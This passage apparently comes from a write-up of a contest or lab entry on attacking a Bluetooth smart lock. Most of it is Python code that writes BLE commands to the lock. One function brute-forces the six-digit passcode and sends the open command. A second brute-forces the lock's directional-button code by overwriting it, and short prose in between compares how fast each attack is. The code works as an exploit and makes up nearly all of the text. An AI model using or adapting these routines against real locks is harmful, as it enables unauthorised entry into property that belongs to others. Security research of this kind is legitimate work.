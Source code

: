 ```
def guess_password_method(i):
    password_code = bytearray([0x29, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x28])
    open_code = bytearray([0xFE, 0x4F, 0x50, 0x45, 0x4E, 0x00, 0x00, 0x00, 0x00, 0xFD])
    if len(str(i)) < 6:
        padding = "0" * (6 - (int(len(str(i)))))
        padding += str(i)
    code = padding[:0] + '0' + padding[0:1] + '0' + padding[1:2] + '0' + padding[2:3] + '0' + padding[3:4] + '0' + padding[4:5] + '0' + padding[5:6]
    temp_code = bytearray.fromhex(code)
    i2 = 0
    while i2 != 6:
        password_code[i2+1] = temp_code[i2]
        i2 = i2 + 1
    #if i % 100 == 0:
    #    print('sending 0xff 0x00 0xff')
    #    device.char_write("0000ffd9-0000-1000-8000-00805f9b34fb", bytearray([0xFF, 0x00, 0xFF]))
    device.char_write("0000ffd9-0000-1000-8000-00805f9b34fb", password_code)
    device.char_write("0000ffd9-0000-1000-8000-00805f9b34fb", open_code)
    yay = padding + " " + code
    return yay


def handle_data(handle, value):
    response = hexlify(value)
    if "59f00095" in str(response):
        print("Received 'guess password success' repsonse (%s)" % str(response))
```

As you can probably guess, while this worked, the amount of time to brute force the passcode was obsurd...like over 24 hours to brute force the lock. Obviously does not qualify as a valid entry. But what happens if we instead brute force the 4 directional button code:

```
def change_physical_method(i):
    # ff xx xx xx xx xx xx yy yy yy yy yy yy fe
    physical_code = bytearray([0xff, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x03, 0x04, 0x03, 0x04, 0x03, 0x04, 0xfe]) # changed to "changed physical code"
    if len(str(i)) < 6:
        padding = "0" * (6 - (int(len(str(i)))))
        padding += str(i)
    else :
        padding = str(i)
    code = padding[:0] + '0' + padding[0:1] + '0' + padding[1:2] + '0' + padding[2:3] + '0' + padding[3:4] + '0' + padding[4:5] + '0' + padding[5:6]
    temp_code = bytearray.fromhex(code)
    i2 = 0
    while i2 != 6:
        if temp_code[i2] == 0:
            return
        if temp_code[i2] > 4:
            return
        physical_code[i2+1] = temp_code[i2]
        i2 = i2 + 1
    device.char_write("0000ffd9-0000-1000-8000-00805f9b34fb", physical_code, wait_for_response=False)
    print(padding + " " + code)

def handle_data(handle, value):
    response = hexlify(value)
    # 60 f0 00 95
    if "60f00095" in str(response):
        print("Received repsonse (%s)" % str(response))
```
